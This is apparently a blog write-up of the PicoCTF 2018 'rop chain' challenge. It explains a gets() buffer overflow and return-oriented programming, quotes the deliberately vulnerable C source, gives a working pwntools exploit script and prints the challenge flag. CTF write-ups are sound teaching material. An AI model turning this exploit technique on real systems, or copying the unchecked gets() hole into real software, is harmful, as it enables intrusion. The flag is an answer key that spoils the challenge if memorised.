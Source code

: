 ```yaml
---
layout: post
title: Binary Exploitation - rop chain (350) - PicoCTF 2018
categories: [general, CTFs, Binary Exploitation]
tags: [CTFs, picoCTF2018, Binary Exploitation]
comments: true
---
```


Running the binary gives us the following output :
```text
Enter your input>
```
Out of an instinct I checked right away for either a buffer overflow or a format string vulnerability. 
```text
Enter your input> AAAAAAAAAAAAAAAAAAAAAAAAAAa
Segmentation fault (core dumped)
```
Okay, so it turns out there is a BoF (no format string).
Let's check for protections with `checksec.sh`:
```text
Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
Apparently there is a NX bit enabled, meaning we cannot use BoF to write shell-code on the stack and execute it. However, as the name of the challenge implies, we can use the **ROP** (Return Orientated Programming) technique to overcome this protection. 
ROP technique allows an attacker who has control of the call stack to hijack program control flow and then executes carefully chosen machine instruction sequences that are already present in the machine's memory, called "gadgets", as each gadget ends with a return instruction.
* You can read more about ROP in this article of CTF101 - [ROP - CTF101](https://ctf101.org/binary-exploitation/return-oriented-programming/).

Anyway, We're going to need to investigate further, and examine the source code is a good place to start.
* Note that in this write-up I'll use the `rop.c` file that was given for simplicity purposes. I do recommend to try use GDB or and other disassembler to analyze the binary before taking a look at the source code.

## Examine The Source Code
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <stdbool.h>

#define BUFSIZE 16

bool win1 = false;
bool win2 = false;


void win_function1() {
  win1 = true;
}

void win_function2(unsigned int arg_check1) {
  if (win1 && arg_check1 == 0xBAAAAAAD) {
    win2 = true;
  }
  else if (win1) {
    printf("Wrong Argument. Try Again.\n");
  }
  else {
    printf("Nope. Try a little bit harder.\n");
  }
}

void flag(unsigned int arg_check2) {
  char flag[48];
  FILE *file;
  file = fopen("flag.txt", "r");
  if (file == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(flag, sizeof(flag), file);
  
  if (win1 && win2 && arg_check2 == 0xDEADBAAD) {
    printf("%s", flag);
    return;
  }
  else if (win1 && win2) {
    printf("Incorrect Argument. Remember, you can call other functions in between each win function!\n");
  }
  else if (win1 || win2) {
    printf("Nice Try! You're Getting There!\n");
  }
  else {
    printf("You won't get the flag that easy..\n");
  }
}

void vuln() {
  char buf[16];
  printf("Enter your input> ");
  return gets(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
}
```
Looking at `vuln` we can immediately see that the BoF is caused due to the usage of `gets` function, which doesn't have any length check.
The most interesting function is probably `flag`, which in the beginning of it we can see that the flag is been extracted from `flag.txt`, but it'll be printed out only if the following is true:

|Conditions|
|---|
|win1 == True / 1|
|win2 == True / 1|
|arg_check2 == `0xDEADBAAD`|


So in order to fulfill the first condition we need to jump to `win1_function`, and in order to fulfill the second condition we need to jump to `win2_function`passing the value `0xBAAAAAAD` as its argument, and that's only after `win1_function` was executed.
After that we are going to need to jump right to `flag` and pass it the value `0xDEADBAAD` as an argument. 

To accomplish all of that we can use the ROP technique.
The fact we have a BoF vulnerability allows us to overwrite the return address and what's beyond that to chain several ROP gadgets together (in this case our "gadgets" are`win1/win2_function` and `flag`) resulting in several fake function stack frames. That would cause the program to jump from one function to another in the right order so all conditions are fulfilled.
 
Based on what said above, we want the stack to look like the following when returning from `vuln`:

|Before|
|---|
|**Lower Memory Addresses**|
|vuln's return address|
|something|
|something|
|something|
|something|
|**Higher Memory Addresses**|

** **

|After|
|---|
|**Lower Memory Addresses**|
|win1_function's address|
|win2_function's address|
|flag's address|
|0xBAAAAAAD|
|0xDEADBAAD|
|**Higher Memory Addresses**|

# The Script
```python
from pwn import *

win_function1 = 0x080485cb
win_function2 = 0x080485d8
flag_function = 0x0804862b


def handle_logic():
	r.recvuntil(">")
	payload = "A"*28
	payload += p32(win_function1)
	payload += p32(win_function2)
	payload += p32(flag_function)
	payload += p32(int("0xbaaaaaad", 16))
	payload += p32(int("0xdeadbaad", 16))
	r.sendline(payload)

if __name__ == "__main__":
	r = process(['/problems/rop-chain_2_d25a17cfdcfdaa45844798dd74d03a47/rop'])
	handle_logic()
	r.interactive()
```

Flag - `picoCTF{rOp_aInT_5o_h4Rd_R1gHt_9853cfde}`
